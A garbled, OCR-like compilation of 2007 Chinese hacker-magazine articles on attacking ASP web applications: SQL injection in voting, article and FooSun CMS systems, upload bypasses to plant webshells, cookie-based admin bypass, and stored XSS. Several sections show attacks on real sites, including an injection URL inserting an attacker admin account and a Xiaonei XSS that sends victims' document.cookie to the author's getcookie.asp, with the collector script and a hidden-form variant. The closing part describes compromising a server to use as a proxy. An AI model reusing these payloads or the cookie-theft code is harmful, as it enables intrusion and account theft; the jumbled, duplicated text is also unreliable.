    uID=request.form("uID")/获取uID值：未经进行任何过滤
    pwdv=request.form("passwd")/获取password的值，也没有过滤
    set rs=Server.CreateObject("Adodb.Recordset")
    sql="select * from board where userid='" & uID & "' and password='" & pwdv & "'"
    rs.open sql,conn,1,1/执行查询语句
    if rs.eof Then
        response.write "<script>alert('对不起,你不是管理员！');history.back();</Script>"
        response.end
    else
        session("admin")=uid
        Response.redirect"admin_main.asp"/转入admin_main.asp
    End If
Else
%>
```

代码我已经加了注释，相信大家都能看懂，在获取 ID、

## 二、跨站

跨站问题多处存在，主要出现在保存数据内容文件(diaocha/save.asp)、和用户注册资料提交文件(member/register.asp)、投票内容文件(diaocha/save.asp)下面是关键代码：

```vb
rs("vote")=trim(request.form("vote"))/获取调查主题内容，过滤忽略
rs("a")=trim(request("a"))
rs("b")=trim(request("b"))
rs("c")=trim(request("c"))
rs("d")=trim(request("d"))
rs("ip")=request("ip")
```## 漏洞站点手册 2007.11 →【新闻练练看】

rs("result")=request("result")
rs("mode")=request("mode")
ts_update //更新操作
……
response_redirect "ok.asp" //转入ok.asp
end if
%>

这里需要注意的是，在调查主题内容里直接提交 `<script>alert('通过陷阱站')</script>` 这类字眼是不行的，这样 IE 直接当成 HTML 执行了，看不到主题也就没法触发这个事件，我们应在主题里面提交：`haha<script>alert('调查陷阱站')</script>`。然后管理员进入后台查看调查主题的时候就可以看到我们的对话框了。当然这只能管理员用，最终管理员就得不对，哈哈！


2. 用户注册资料文件（member/register.asp），下面是关键代码：

<%
dim name,pass1,pass2,sure //定义变量
sure = Request("login")
if sure = "ok" then
...
name = Request("name") //获取name
pass1 = Request("pass1")
pass2 = Request("pass2")
email = request("email") //获取email
homepage = request("homepage") //获取homepage

—— 省略N多无关代码 ——
sql=
sql='insert into member(uid,pwd,email,url,question,answer,ip)'
sql = sql & " values('"&name&"','"&pass1&"', ... )"
'&&homepage&&'&Server.HTMLEncode(request("question"))&"','"&Server.HTMLEncode(request("answer"))&"','"&Request.servervariables("remote_addr")&"')"
conn.Execute(sql)
// 直接插入数据
set rs=nothing
conn.close
else
%>

思路很清晰，只是用 Request 获取注册时需要的内容，对内容一点也没有过滤，就进行了数据库操作，所以我们注册的时候在 email、homepage 这两项里面所填就可以了，直接插入 `<iframe src=http://baidu.com width=300 height=300></iframe>`，这样就成功不显示了。

## 三、修补

对于 `or'='1' or 'or'='1` 漏洞，用一些函数对用户输入的内容进行过滤，主要是对空格和单引号的过滤。至于跨站漏洞主要是对 javascript、alert、<、> 等一些有危害性的字符进行有效的过滤，大家最好在网上直接过滤过滤，找些全面的引用一下。

## 四、总结

一个小小的投票系统竟有如此多的洞，真叫人用的不放心，最后希望用这套程序的朋友注意一下。

编辑点评：这种 `or'='1` 的漏洞有，剩什么也怪？

# 渗析浪人文章系统 V2.3

自己刚学 ASP，哎，没有人教，挺不好意思！这不，自己看了几本书后，而且非安全上期都有分析 ASP 的文章，代码都看得“懂”了，于是动手学了，马上就到百度大叔那里去，写了个浪人文章系统 V2.3，慢慢有了起步。

由于运行检查，因此就先煎稿测试！本地打开一下，嘿呀，界面还不错嘛！如图1。


随便点个文章看，哦，竟然是这种形式的：read.asp?id=120，那还等什么，直接在后面加一个 and 1=1 试试，如图2。哎，直接跳到官方网站去了！怎么回事？看来有点在监视 url 传来的数据。这回没辙了，只有绞尽脑汁去看代码了。于是来到这里，关键代码如下：

<!--#include file='Inc/Config.asp' -->
<%
dim sql
dim rs
dim rs
... 
if Request.QueryString("ID") ... then
response.write "没有找到相关文章"
response.end
end if

set rs=server.createobject("adodb.recordset")
sql='update ... where ArticleID='&Request.QueryString("ID")
rs.open sql,conn,1,3
sql='select SortID,AsSortID,ArticleTitle,ArticleWrite,ArticleContent,
ArticleFromURL,ArticleContent,ArticleComment,ArticleShow,
ArticleReadNum,ArticleDate from ... where ArticleID='&Request.QueryString("ID")
rs.open sql,conn,1,1
if rs.eof and rs.bof then
response.write "没有找到相关文章"
response.end
else
'ArticleTitle'=rs('ArticleTitle')

- 关键代码中未对 `Request.QueryString("ID")` 做有效过滤
- 直接拼接 SQL，存在注入风险
- 可通过构造参数影响查询结果

356

# 【新闻练练看】← 2007.11

WebSite="WWW6.MG..."

SearchIP="http://www.ip.cn/ip.php?ip="

ReadExplain=""

Username=paonun
DateTime=2006-9-14,00:00:20

注意了，当时我看的时候，只看了这个文件的头部分，没有往下看，这次是作者细心的地方，把「<!-- #include file="../SQL.asp" -->」这个文件放在这个文件最后了，才导致我出现这样低级的错误。于是继续跟踪，来看这个文件到底是怎么监视的，关键代码如下：

```asp
<!-- #include file="../../SQL.asp" -->
<!-- #include file="Function.asp" -->
Dim WebName,WebUrl,WebWebKeywords,WebWebDescription
Dim GuiTablePrefix,LRECUserNameL, LRECUserNameR, LRECUserGradeL
Dim SM_SServer, SM_SUsername, SM_SPasword, RM_Subject, RM_SendEmail,
RM_SendName, RM_Body
Dim RArticleDate, RArticleUserName, RArticleAddIP, RArticleReadNum,
RArticleContent, RSearchIP, RReadExplain
```

很明显，这里只判断 id 是不是为空就直接进入数据更新，理由我们是有机可乘的。唯一有问题的就是那个包含文件了（这里只要找掉开头即可），开始我以为这个文件里面不会有问题，没想到问题就出在这个文件里，于是我们来到这里：

```asp
<%
<!-- #include file="../conn.asp" -->
<!-- #include file="Function.asp" -->
Dim WebName,WebUrl,WebWebKeywords,WebWebDescription
Dim GuiTablePrefix, LRECUserNameS, LRECUserNameG, LRECUserGrade
Dim SM_SServer, SM_SUsername, SM_SPasword, RM_Subject, RM_SendEmail,
RM_SendName, RM_Body
Dim RArticleDate, RArticleUserName, RArticleAddIP, RArticleReadNum,
RArticleContent, RSearchIP, RReadExplain

WebName="深入文章"
WebUrl="http://www.rl.cn/article/"
WebWebKeywords="深入文章"
WebWebDescription="深入文章"

GuiTablePrefix="LRE_CN"
LRECUserName="session(""LRECUserNameS"")"
LRECUserGrade="session(""LRECUserGrade"")"

SM_SServer="mail.ic.cn"
SM_SUsername="article@ic.cn"
SM_SPassword="sendmail"

RM_Subject=""
RM_SendEmail=""
RM_SendName=""
RM_Body=""

ArticleWriter="未知"
ArticleWriterContact=""
ArticleFrom=""
RArticleDate="0"
RArticleUserName="0"
RArticleAddIP="0"
RArticleReadNum="0"

MessageQQ="http://wpa.qq.com/msgrd?"
```

上面 fy_cl 定义的初始值是 2，因此很明显是跳到密钥网去了，这里就找出原因了。而且我看了下，几乎所有的文件都包含了 config.asp 这个文件，既然这样，看来凶人是受制了！不甘心，

```c
// Dim_Fy... / Fy... / Cs... / Fy_Cs...
// This section contains control-flow and parameter checking logic.
// Multiple nested For / If / Select Case blocks.
```

# 王工网银的设计缺陷

于是在继续看，或许还有其它的洞。当我看到 upfile.asp 时，兴致又来了，关键代码如下：

```html
<html>
<head>
<title>上传文件</title>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<!--#include FILE="Inc/Style.asp"-->
<Script Language="VBScript">
...
Sub SelAdress()
    document.form.filepath.value=document.form.DownAdress.value
End Sub
</Script>
```

哈哈，还有这样的漏洞，赶快直接在地址栏中输入 `http://127.0.0.1/22/upfile.asp`，如图3。

还等什么，直接传马呀，没想到出现的却是这个结果，如图4。难道免费版的就这样对待么，哎，连上传文件都没有写好。真是！再转一圈，哦，右图言，说不定可以跨站嘛！试试，如图5。

这一下经过后，用户留言地址也正常完成了。多谢！难道是给管理员看的？于是赶快跑到后台去查看，看看“用户留言管理”，哈，漏洞产生了，如图6。

这样又为什么成功，是因为上面的那个处理文件并没有对我们提交的内容进行处理（只对 url 进行了处理），所以才产生了漏洞。只要这样的漏洞几乎不多见，便于将网站黑了，关掉它，哈哈，正是如此，所以才出现这样的情况。

至于文件本身的漏洞，可以查出许多人（包括小编自己）开始学习脚本的时候，每个知识都觉得那么一点，但是又不深入，只有对漏洞的细心挖掘，才会看见其中的漏洞，不过不重要，只要多交流，多向高手们请教，掌握会快很多。

# 工行网银的设计缺陷

从本文你可以学到：

工行银行网上银行系统的一个设计缺陷

网上银行系统为我们的生活带来了极大的方便，网上购物支付、网上转账、网上缴费等，正让我们足不出户就一切搞定。

我自从开通了网银，就基本没去过电脑房里银行了，见到小灵通、因特、手机的费用都在网上银行缴了，但就在这个过程中，发现了工行网银系统的一个小小的设计缺陷，不能说是漏洞，只能说是漏洞的雏形，故曰“设计缺陷”。我们的先来看看图（图1、图2）。

这两张图便是我们从网银充值到手机话费的前两个步骤：1 是网银移动充值入口，要求我们输入充值的手机号；图2 是显示出该号码的有关信息（以淡色和红字标入），以及进行充值金额的确认。

从中你发现了什么？我们在这个过程中只输入了一个手机号码就得到了余额信息、用户名等信息，而没有任何的密码确认，我们在查询时还不需要输入正确的密码方能成功，而且这种基本不禁用，时时查询其他用户信息也是显示出来了。这应该算是一个设计缺陷吧，这直接导致了个人信息的泄露。我在充值小灵通话费时同样也发现了这个问题，如图3。

我可以直接通过号码查询任意小灵通和手机号码用户的姓

# 【新漏洞综述】2007.11. 非安全，黑客手册

# “后台 IP 限制系统”——一个有意思的伪装程序

最近看到一款很有意思的 ASP 程序，名字叫“后台 IP 限制系统”，打开看到了作者这样的介绍：这个系统针对的是 ASP 程序的后台，因为很多 ASP 程序都存在这样那样的漏洞，有一种很常见的入侵方式就是获取后台的后台用户名和密码后通过后台进行侵入，但由于时间等因素的限制，要么就是伪装成为登录安全问题，通过用户名或用户站点建立这类的设置来实现。这个系统如果能限制后台的 IP 访问，也许可以减少被入侵的可能性。


了解，你也可以来查一查……大家自由发挥想象啊，想想还能做些什么。好了，就说到这儿吧，本就是一个小小的缺陷，不浪费非安全大多数的篇页了。最后说明一下，这个缺陷是在工商银行的网上银行系统测试的，其他网银未能做此测试，大家可做进一步的测试。

编辑点评：小站点，大空间，千里之堤，毁于蚁穴的教训在安全界不常见，但总被这点缺陷所设防不大，如何将人深入之道。这些小缺陷总是放在逻辑中的、小缺陷：在防雪、木马等天关的今天，似乎一直还不属于网络的主角。

从本文你可以学到：1、伪装程序使用说明 2、伪装的原理分析

最近看到一款很有意思的 ASP 程序，名字叫“后台 IP 限制系统”，打开看到了作者这样介绍：这个系统针对的是 ASP 程序的后台，因为很多 ASP 程序都存在这样那样的漏洞，有一种很常见的入侵方式就是获取后台用户名和密码后通过后台进行入侵，但由于时间上的因素使得很少的权限象征的名称会方便程序后台的安全，这个系统就是防止此类入侵侵入的最后一道防线，将 checkip.asp 包含在后台文件夹中，这样别人就算拿到了正确的用户名密码也进不去后台，除非他伪装骗过这个程序，所以建议大家把管理文件放在后缀名为 asp、aspx 或者做成文件中的 filename 变成，最后放到一个隐蔽的地方，至少防止由于账号泄密以及涉及后台漏洞的入侵行为。当然本程序也不是万能的，是一个安全的手段，其实更需要大家在平时多注意自己的代码，从根本上杜绝漏洞。

我也动手试了下，进行了一个试验，看看是否程序写得是否严谨，但结果没让我失望，挺有一套的欺骗性。作者说了用法，但不大详细，一些人看了可不能见得太明白，但总还是一些实践工作，效果确实不错。我就照着这个程序再在后台文件上传文件看看更细致的分析，接着开发改漏洞与所在要收录，如所需及其缺乏名片内还文件介绍。


IP 如图1。从图1中可以看到我的机器 IP 是：60.xxx.xxx.227，已设置“后台 IP 限制系统”的网站的服务器 IP 如图2。


我现在访问这个网站，找到它的后台登录处，当我输入这个后台地址会出现访问的连接地址，如图3。


从图中可以看到，后台地址为：http://218.xxx.xxx.133/xxx/Admin_login.asp，我点击登录，出现如图4。


登录后台的 IP 只有在这个 IP 上才能登录进去，界面上有个“历史记录”，记录了登录者的信息，如图7。看到没有，上面有记录的 IP 和时间，如果是伪在指定的 IP 登录后台，就会出现“找不到文件”这样故意设置的提示，直接就进入到登录后台，如图8。


从图8中可以看到真正的登录文件 Admin_login1.asp（你可以发现它是被隐藏的文件名），原来在图1中登录后台指向的是 Admin_login.asp，看来实实在在地绕过了，通过 javascript codepage=936 和 include file="lookeip.checkip.asp" 等方式对程序的防护进行了伪装。

```asp
<%@language=vbscript codepage=936 %>
<!--#include file="lookeip.checkip.asp"-->
response.redirect
```

# 上传之文见上传

从本文可以学到：

上传漏洞分析

这篇文章主要讨论了上传漏洞的利用与分析，围绕 upload.asp 之类的上传页面、保存路径、文件类型限制以及如何通过绕过检测实现上传可执行文件展开。


```vb
response.Write "formPath"
for each formName in upload.objFile
    set file=upload.file(formName)
    set file=upload.file("formName")
    file.SaveAs Server.mappath(formPath&file.FileName)
    '...
end if
```

```vb
<%
dim upload,file,formName,formPath,iCount
set upload=new upload_xsoft
upload.upload
'建立上传对象
response.write upload.Version&"<br><br>"
if upload.form("filepath")="" then
  response.write "请输入要上传至的目录!"
  response.end
end if
formPath=upload.form("filepath")
if right(formPath,1)<>"/" then formPath=formPath&"/"
'...
%>
```

```text
SECURITY: You must explicitly enable this 'uploader'...
Dim ConfigIsEnabled
ConfigIsEnabled = False
Dim ConfigUseFileType
ConfigUseFileType = False
'Path to user files relative to the document root.
```

编辑点评：很多站点系统都自定义登录 IP，或者将上传目录与权限控制结合使用；如果能绕过上传限制，就可能进一步获得后台或执行代码的机会。

# 【新网络练习营】2007.11 非安全专题审核手册

包文件如下：

```http
POST /CKEditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=FileUpload&Type=File&CurrentFolder=/ HTTP/1.1
Content-Type: multipart/form-data; boundary=...
Host: www.xdsy.cn
Content-Length: 3850

--...
Content-Disposition: form-data; name="NewFile"; filename="nohack.asp"
Content-Type: text/plain
```

好了，我们两个的应用方法就说完了，大家去找地方应用吧，嘿嘿！

编辑点评：技术本身没有什么好坏说的，大家记住这两个也存在上传漏洞，自己的站点记录下来，下载给您的时候不要混乱哟，就可以创意修复，一剑封喉！

# 图大案 对“豪华网络商城购物网站管理系统正式版”的研究报告

从本文你可以学到：

- cookie 账号漏洞
- 写入一句话木马

首先来介绍一下这个系统，“豪华网络商城购物网站管理系统正式版”只要今天才卖就可以快速建立自己的电子商务网站，界面如图1。

话不多说，直接进入我们今天的主题。

## 1. “注入”失踪

我本来想找一下注入漏洞的，但是找了一个多小时都没收


这时，无意中发现，很多个提交的函数都放在 functions.asp 中的以下代码过滤了。

```asp
function buyoktxtcheck(txt)
  buyoktxtcheck=exit
  dim chx: chx=replace(lcase(txt), ...)
  if instr(chx, "'")>0 then
    buyoktxtcheck=0
    response.write "<script language='javascript'>alert('...')"
    response.write "location.href='javascript:history.go(-1)'"
  end if
end function
```

## 2. 对管理员登录（admin.asp）的分析

我想，拿下了这个购物系统后台，基本就拿下了整个网站了，我首先对 admin.asp 进行分析。关键代码：

## 攻破黑客手册 2007.11 -> 新洞练练看

与原来的比较，很明显在这就篇是不可能的，且光转向了后台主页上，主页上只有几句：

```asp
<%
if request.cookies("buyok")("admin")="" then
    response.write "<meta http-equiv='refresh' content='0,URL=../admin.asp'>"
else
    response.write "<meta http-equiv='refresh' content='0,URL=admin.asp'>"
end if
%>
```

关键在于 if request.cookies("buyok")("admin")="" then，它的作用是判断 cookies 中的 buyok 和 admin 是否为空，再去看修改目录下的 admin.asp，这次做法是判断 cookies 中的 buyok 和 admin 是否为空。原理知道了就直接测试，首先打开 domain 进入后台登录界面，如图2。


## 3. webshell 之旅

看到上文 upsave.asp（上传文件）的代码后，我猜了上传 webshell 的念头。关键代码：

```asp
if uftype="adv" or fuptype="pic" then
    if LCase(filename())<>"gif" and LCase(filename())<>"jpg" and
       LCase(filename())<>"swf" and LCase(filename())<>"htm" then
        response.write "<script language='javascript'>"
        response.write "alert('不允许上传您选择的文件格式，请检查后重新上传！')"
        response.write "location.href='javascript:history.go(-1)'"
        response.write "</script>"
        response.end
    end if
```

只允许 gif、jpg、swf、htm 等格式的文件，这时我想利用一句话木马写入数据库的想法。系统的数据库是 asp 的，所以可以写入一句话木马，查看了 config1.asp，发现写入数据库时设

```asp
Set rs=Server.CreateObject("ADODB.Recordset")
sql="select * from wxtcbconf"
rs.open sql,conn,1,3
rs("sitekeywords")=trim(request.form("sitekeywords"))
rs("sitedescription")=trim(request.form("sitedescription"))
rs("bbs")=request.form("bbs")
rs("menu")=request.form("menu")
rs("menu1")=1
rs("help_hang")=request.form("help_hang")
rs.update
rs=close1.asp"
rs.close
set rs=nothing
conn.close
set conn=nothing
response.write "<script language='javascript'>"
response.write "alert('操作成功，您设置的信息已经保存！')"
response.write "location.href='"&url&"';"
response.write "</script>"
end if%
```

所以我们可以在此写入一句话木马，如图4、图5。

## 4. 总结

这个系统总体上来说是做得十分的好，好了，文章就到此结束了！


> 编辑点评：cookies 熟悉和写一句话木马，存在这漏洞的程序本文作者却和其它一样上传只说得很好十分的好，其不放的页，不信，你可以仔细看，看漏从大把。

# 对“影视软件下载网站源码”的研究报告

从本文你可以学到：1. 暴库漏洞 2. 注册漏洞

最近无聊，就找了个网站源码来练练手，废话少说开门见山，直接进入主题。首先，我看了一下数据库连接文件，代码如下：

```asp
<%
Dim udb
udb="db/19840607.mdb"
Set Conn = Server.CreateObject("ADODB.Connection")
myconn="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath("&quot;" & udb & "&quot;")
Conn.Open MyConn
%>
```

很明显，没有 ON ERROR RESUME NEXT 之类的容错代码，访问 http://sunway.mmiy.cn/text/db/user.asp 就立刻暴出数据库路径了，如图1：还有就是在 show.asp 文件中，变量 ID 没有任何过滤就放进查询语句中，关键代码如下：

# 风讯 CMS4.0sp5 的致命伤

By oldjun\[S.U.S] & flyh4t\[CNSS]

从本文你可以学到：

- 风讯最新版本漏洞分析
- 一种发掘漏洞的思维拓展

FooSunCMS(风讯网站管理系统)是由网风讯科技发展有限公司自主编写的一套ASP+ACCESS/MSSQL的内容管理系统程序，FooSunCMS已形成内容管理系统竞争解决方案，虽然其功能强大，但是在安全性上却非非常好的……

```asp
if request("id")<>"" then
    response.write "非非法操作，请确认程序是否正常运行"
    response.end
end if

Set rs = Server.CreateObject("ADODB.Recordset")
sql="select * FROM download where id='"&request("id")&"'"
rs.OPEN sql,conn,1,3
if rs.eof and rs.bof then
    response.write "没有该软件"
    response.end
end if
```

编辑点评：基础的东西，还是狠紧些吧！


比老版本过滤的要多一些了，貌似很多关键词还有关键字+空格的都过滤了，/*/也不行了，因为*号也被过滤了，tab也被过滤了，所以%09也无法使用。但是分析后发现，mssql对shacker是非常友好的，我们要找到其能够分析符号，这个过滤还是很容易被突破的。

思考了一段时间，去百度查查最新的注入方法，看看电脑里一系列注入资料，我们偶然发现了通过了如下……最关键的切口点，mssql有个很古老的 bug，可用来绕过大部分关键字过滤。

```asp
Function NoSqlHack(FS_inputStr)
Dim nSqlHack_AllStr, nSqlHack_TmpStr
nSqlHack_AllStr = "|" & lcase(FS_inputStr)
if InStr(nSqlHack_AllStr,"select") Or InStr(nSqlHack_AllStr,"delete") Or InStr(nSqlHack_AllStr,"update") Or InStr(nSqlHack_AllStr,"insert") Or InStr(nSqlHack_AllStr,"drop") Or InStr(nSqlHack_AllStr,"create") Or InStr(nSqlHack_AllStr,"master") Or InStr(nSqlHack_AllStr,"alter") Or InStr(nSqlHack_AllStr,"xp_cmdshell") Or InStr(nSqlHack_AllStr,"xp_regread") Or InStr(nSqlHack_AllStr,"xp_regwrite") Or InStr(nSqlHack_AllStr,"xp_regdeletekey") Or InStr(nSqlHack_AllStr,"xp_dirtree") Or InStr(nSqlHack_AllStr,"char") Or InStr(nSqlHack_AllStr,"ascii") Or InStr(nSqlHack_AllStr,"script") Then
    NoSqlHack = Replace(FS_inputStr, "'", "")
End If
```

测试一下 1 = 1，ok的，于是继续测试：
http://demo.foosun.net/User/iBlog/PublicLogEdit.asp?id=2' and 1=1, ok, yes
……
然后发现可以成功执行了。

# 醒龙安全黑客手册 2007.11 → [新洞练练篇]

再一次的返回正常页面竟然再次进入到这个 demo 站已经是我的了，再次进后台已经是没有阻拦了，虽然后台放 CSS、看的我头大，但还是很欣慰啊。准备试试 sqlshell，不过好像这页面没多少，这次状态：一般管理员，我来强了一点，原来这一版管理员与超级管理员是分开的。发现了下权限的数据库结构，原来超级管理员是 Admin_Is_Super 为 1 的管理员。这样简单，连编码都不用了，直接写个执行代码。由于前几次我对 sql 语句不敏感，不敢执行太多的 sql 语句，所以我对加条件，也就是 set 用户名与密码的字符串的格式，是集体 set，一个语句 change 才算成功，返回的条件。

其中：83aa400af464c76d 是数字 12345678 的十六位 MD5 执行了，出错了，如图1。案，原来我忘记了，这个函数还没有标准的定界符号，要替换掉了，这个就很容易绕过了；12345678 仍用两种方法，分别采取十六进制编码直接写入数据库中。


返回正常，嗯，再进后台，输入用户名密码，结果提示：请检查用户名和密码的正确性，都行了，建议官方的用户名不是 admin? 算了，把用户名也修改掉吧，把“oldjun”十六进制换下了一个文本：0x6F6C646A756E。于是我执行了下用户的网页管理：

再返回正常时，说明执行成功了，再登录后台，用户名：12345678，密码：12345678，接下来要出现了让我们大大失望的结果，依旧跳出 a alert 提示，直接给用户名和密码的正确性。

对这个地方，我开始怀疑是代码出了手脚了。但我不甘心，从他们的程序里面找到一个改动的页面，按照上面的方法试了下，结果居然一样，执行成功了只是提示没有变化。


怪不得执行成功了还是会有出错提示。肯定是十六进制编码与字段类型不符了，用户下发好像请指定：varchar 是单 Unicode 的字符数据；nvarchar 是 Unicode 数据，所以还要重新编码成十六进制。

用户名 “oldjun” 编码以后是：0x6F006C006A006E；密码 “12345678” 编码以后是：0x3800330032003100300030003600340037003800。

好了，本地输入了下，ok，数据库中出来的用户名密码均是我们预期中的数据，显示正常无乱码，于是提交到了网站到原处。地址：

http://demo.foosun.net/User/i_Blog/PublicLogEdit.asp?id=2,insert%0D%0A%0D%0Ainto%20FS_MF_Admin%20(set%0D%0AAdmin_Name,Admin_Pass_Word)%20values(%0xF006C006A006E00,0x3800330031003600340037003800)--

再次一次的返回正常页面竟然再次进入到这个 demo 站已经是我的了，再次进后台已经是没有阻拦了，虽然后台放 CSS、看的我头大，但还是很欣慰啊。准备试试 webshell，不过好像这页面没多少，这次状态：一般管理员，我来强了一点，原来这一版管理员与超级管理员是分开的，发现了下权限的数据库结构，原来超级管理员是 Admin_Is_Super 为 1 的管理员。这样简单，连编码都不用了，直接写个执行代码。


由于前几次我对 sql 语句不敏感，不敢执行太多的 sql 语句，所以我对加条件，也就是 set 用户名与密码的字符串的格式，是集体 set，一个语句 change 才算成功，返回的条件。


好了，所有的 oldjun 的管理者非常强了。用过 Foosun 的朋友都知道，管理后台功能非常强大。用 bbs 基本的话说，它跟网罗一个后台，可以仅仅得意用户与很多程序员编写的东西，下面的工作是我们这个人到这个大目录的 webshell 了，有两个简单的方法。第一是利用设置上传文件类型的页面，可以修改自己的 asp 以便接入一个 asp 木马，如图3。本地执行下，传个大马上去，终于拿到了 shell，如图4。

剩下的事情我们做，C 盘里有个很完整的系统，思路很清晰，甚至是构建 shell 任务本篇，后来又把同5004的 sql 取本已轻松拿到了。今天站我想搞的为问题 20.5 计，这次顺利了，不要再次检查。后来我们在对此 webshell 做了很多研究，发现这个程序安全上的漏洞几乎都在于对数据库进行操作的 SQL 语句，而我们也能够很轻松地拿到各种权限。为了避免网站再被别人利用，我便把程序下载下来，研究了一番，后来发现还有几个可利用的点。

最后，感谢在这个过程中 **lyh4t、jnc** 提供的帮助，感谢东南大学网络安全联盟（S.U.S）的诸位兄弟和支持，感谢与大家的交流和在论坛上一直以来对我的关注和理解。另外欢迎大家多多来我的小站：www.oldjun.com。

编辑点评：刚刚从这些案例中总结，像某些功能虽然总是，风花出来了，文章已经发出，还是处于正。文章的感觉，不太成熟，后来也被分成了更多的任务。很喜欢上面的紧急任务里，避免了版面，还是更多。最后，几次的利用 MSSQL 来实现，这个思路使得程序有一个很大的隐患，所以要把相关的参数填写在后台修改，尽量将参数放到安全状态中来。

## 校内网余码校跨站测试以及拿 cookie 全攻略

从本文中你可以学到一种 css 里的跨站有趣利用方法。

校内网是中国大学生第一大社区，拥有广大的大学生用户群。我在 5 月份注册了校内网，发现校内网有个功能叫跨域信，可以写 html 语句、玩黑位么，从它的反应就能分辨域名的程序句码。

- 1. 先尝试用的跨站方法，我估计不可能成功，果然一些跨站常用的 javascript、iframe、`<script>`、vbscript 等等关键词都被屏蔽或者替换了，甚至 onload、onerror 都被屏蔽了。
- 2. 再试 `img src="java:alert(/xss/)" width=0>`，发现不行，它貌似有函数判断 src 后面的是否为正确地址。
- 3. 尝试 XSS 包含漏洞，先新建一个文件：xss.css，利用 expression 执行一个函数并且 onload 自动执行，把这个文件放到我空间里，内容如下：

```css
*{}
text/xss;
behavior: url(#default#time2)
```

接下来就是想办法调用这个文件了，我先尝试了 `@import`，发现 `@import` 已经被校内封掉了；于是开始想到别的方法，忽略前缀，起初以为成功了，结果发现没有成功。还是 `#import` 较为简单，利用一段样式来加载并调用漏洞，再加了一层后，没有做好，反而被墙了，最后改为通过 `link` 载入。

```css
<style type="text/css">@import url(http://www.oldjun.com/xss.css);</style>
<body class=testxss>
```

保存了，成功，再进自己页面看看效果，OK，perfect！很久都在地推一个 alert('xss'); 换成 location.href="http://www.oldjun.com"，于这是大致要跨站的我目的了。


接着把我空间里的 xss.css 执行的内容修改成：location.href="http://www.oldjun.com/getcookie.asp?cookie=" + document.cookie，

```asp
<%
dim getcookie
dim title
dim str
' 取得到的 cookie
getcookie=request("cookie")
' 取时，cookie 有期限的的话
t=time(now())
set fs=server.CreateObject("Scripting.FileSystemObject")
set file=fs.OpenTextFile(server.MapPath("cookie.txt"),8,True)
'生成字符串
str=time & " " & getcookie
'写进 cookie.txt
file.writeline(str)
'file.close
set file=nothing
set fs=nothing
'再续回来，如果和我不想变
response.write "<script>location.href='http://www.xiaonei.com'</script>"
response.end
%>
```

好了，执行跨站代码后先转向我空间里的 getcookie.asp，request 得到对方 cookie，再由 getcookie.asp 把 cookie 写入空间里的 cookie.txt，呵呵，到 cookie 还给你看。


# 王克强隐匿手册 2007.11 —【西线无战事】

的效果图，又有不少可爱的小姐姐在打酱油……

在 cookie 中找下用户名密码；email=****@163.com；password=6018ff4f0181f76ea1558c408012612a，把 md5 的密码挪到验证码须知时密码，就像阿虚出；直接进去。剩下的等我文章完了，发现最喜欢的都贴出来了，直接进去就有一个页面是有字符换的，把密码拷到页面的一角点的位置（这是个技巧）。


好了，先改了你密码。

大家原来，不个人感觉不厚道的人不是早有应得啦。当然，这次只是运气好，md5 密码一下子破解了，假如破解不了的 md5 密码呢？我们还有办法，那就是伟大的 cookie 替换啦。大家可以找个代替 cookie 的绿色浏览器，或者直接用 domain 吧，如图 4。

直接修改 Cookies，把对方的 cookie 粘贴进去就 OK 啦，不过记得改 IP，大家在题里看到的：mop_uniq_chid=58.213.51.91_190402369_151860291；前面的 58.213.51.91 是我的 IP，修改对方 cookie 时把他原来的 IP 段改自己就 OK 啦！

昨天在网上看到另外一个网站的利用方法，浏览了一个什么一样的：校园内网 <LINK> 标签是过滤了，但是可以用 <L1INK>NK>，过滤了 <L1INK>NK> 还能用 <L1INK>，如下：

```html
<li><li\nk type="text/css" rel="stylesheet" href="http://www.oldjun.com/xss.css" />
```

这个简单，校内内对它不再限制，然而 import 打了就麻烦了。

OK 了，跨站的简单利用攻略就到这里啦，做安全的永无止境，大家可以测试玩玩，但不要做坏事情。最后感谢 Flyh4t，感谢东南网安联盟（S.U.S）的诸位兄弟，感谢大家在这场访的道路上一路相伴。另外欢迎大家多聚聚乐的小站：www.oldjun.com，over。

编辑点评：

这个校园内网允许写入一定的 HTML 语句，恰恰表现还是比较多的。作者从发现跨站到利用，如何将比较好的记录，只是利用称为攻击的代言词而言，这里的 location.href='http://www.oldjun.com/getcookie.asp?cookie='+document.cookie,和另两台攻击本身的一种起因，是放作为攻击的代码中文语句其实就是我写到内网的页面，是这样是不会被人发现。可以试试将 XSS、CSS 的这一段 document.body.insertAdjacentHTML('afterbegin', '<iframe width=0 height=0 src=http://www.oldjun.com/a.htm></iframe>'),然后再将 a.htm 写入网站结构变更到 getcookie.asp 的代码，如：

```html
<form action="http://www.oldjun.com/getcookie.asp" name="frm1" method="post">
<input type="text" name="cookie" value="">
</form>
<script>
document.frm1.cookie.value = document.cookie;
setTimeout('frm1.submit();',1000);
</script>
```

这样一来，不仅避开了一些跨站的问题，同时真正做到了作...。

<iframe src=http://www.oldjun.com/getcookie.asp?cookie='+document.cookie+' width=0 height=0></iframe>，不过还是不能躲有来源的……

## 一、信息探测

由于工作原因，疏于管理肉鸡，用了许久的 VPN 内网飞了……没办法，因为上一步网站当然需要用到 VPN，只能再去找几台做 VPN 了。于是找 GOOGLE 帮忙，搜了下，不一会就找到了一个有注入且为 SA 权限的网站。心想，今天运气不错嘛，一次就给拿到了 SA。可能有些朋友看到这应该会说，这东久，攻略没了，不查我这篇给不了 SA，可以用手顺按到 x 或 admin 账号，各种方式都出来，当然我都考虑了，审核认证说，呵呵，如果是一般的情况，那么就会释放出与这一堆扫...。

2K+MSSQL2000+IIS，对外开放 80、1433、3389 端口，但此服务器上只放该站一个站点，而且后台管理台标写在 ASP 文件里（的确有点特殊呀我就可能右右失挂点，一定是站后台里有的猜测）。

网络上公认的危及行者链接所有自作来历，方法是站太多单一的站点找到了是目标或低了（后来深入认知 odel70.dll、xp_log70.dll、xpsar.dll 三个月 DLL 被删除，意味着 N 多的存储扩展用不了。这也就意味着，虽

当然，SA 权限，但你却不能执行命令、不能列目录、不能修改注册表、不能恢复被删除的存储扩展。

OK，大体情况已经说完了，难度系数是有 D，研究是如何击破这里的堡垒的。虽然对方开放了 1433 端口，但是这并不代表着 WEB 和数据库就是在一起的。曾经就遇到过这样的机器，虽然弄开着 MSSQL 服务，但是却是处处的 WEB 机器混进去的。首先留意，双友性交是安全的。于是我先在本地用 NC 监听 80 端口（反连 IP，自己机器弄作一定要有装 MSSQL 的，在注意上注明如下：

```sql
